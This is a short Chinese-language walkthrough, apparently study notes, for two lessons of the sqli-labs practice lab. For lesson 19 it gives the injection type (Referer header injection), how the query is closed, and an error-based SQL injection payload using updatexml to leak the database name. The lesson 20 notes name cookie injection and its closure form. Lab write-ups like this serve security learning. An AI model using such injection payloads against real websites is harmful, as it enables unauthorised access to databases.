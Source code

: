 ### Less-19：POST -Header lnjection - Referer field - Error based

**注入类型**

头部注入

**闭合方式**

id=('\$id')

```sql
 //与18题类似，这题利用 referer 字段
 'and updatexml(1,concat(0x7e,database()),1))#
```

![](file/image_YKFlTnp5mf.png)

### Less-20：POST - Cookie injections - Uagent field - error based

**注入类型**

Cookie注入

**闭合方式**

id='\$id'

